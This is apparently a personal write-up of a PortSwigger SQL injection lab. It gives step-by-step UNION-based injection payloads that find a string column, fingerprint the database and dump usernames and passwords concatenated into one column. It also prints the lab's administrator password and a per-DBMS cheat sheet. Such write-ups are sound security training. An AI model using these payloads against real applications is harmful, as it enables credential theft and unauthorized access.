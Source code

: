 # Lab08: SQL injection UNION attack, retrieving multiple values in a single column
* url: `https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column`
* vulnerability: `Union-Based SQL Injection`


## Description 
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

## Proof of Concept
1. Much like the last lab, I must extract data from the `users` table and use the credentials for `administrator` to log in and solve the lab. However, in this lab- I must return the data within one column. (Please refer to the notes section)
2. From the last lab: 
* Number of columns: `2`
3. I think it's necessary to know what kind of database I'm dealing with so I can craft the necessary payload for the specific DBMS as well as knowing which column number returns/expects 'string' output. To test which column returns string output I could test the following payloads:  
* `' UNION SELECT 'test', null-- -`
* `' UNION SELECT null, 'test'-- -`  
It looks like `column 2` returns string output!   
![descript](images/sqli-practitioner-lab8-col.png)  
4. I can now check what kind of database I am currently working with by using the following payloads:  
* `' UNION SELECT null, @@version-- -`
* `' UNION SELECT null, version()-- -`
* `' UNION SELECT null, banner FROM v$version`
It looks like I'm dealing with a `PostgreSQL` DBMS!
5. Now, I can craft a tailored payload: `' UNION SELECT null, username || ':' || password from users-- -`. As you can see, it returned the data within one column:  
![descript](images/sqli-practitioner-lab8-data.png)
6. I can now use these credentials of `administrator` and `lu2zlt04xidh3uscd9ix` to log in and solve the lab! 

## Notes
```sql
UNION SELECT CONCAT(username, ':', password), NULL, NULL FROM users--
```

### Explanation:
- **`CONCAT`**: Combines `username` and `password` into a single string, separated by `:` (or any delimiter you choose).  
- **`FROM users`**: Specifies the table you’re extracting data from.  
- **`--`**: Comments out the rest of the original query.

### If `CONCAT` Doesn’t Work:
Depending on the database, you might need alternative functions:
- **MySQL:** `CONCAT(username, ':', password)`
- **SQL Server:** `username + ':' + password`
- **PostgreSQL:** `username || ':' || password`

### Output Example:
When displayed in a single column, the result might look like this:
```
admin:password123
user1:qwerty
```

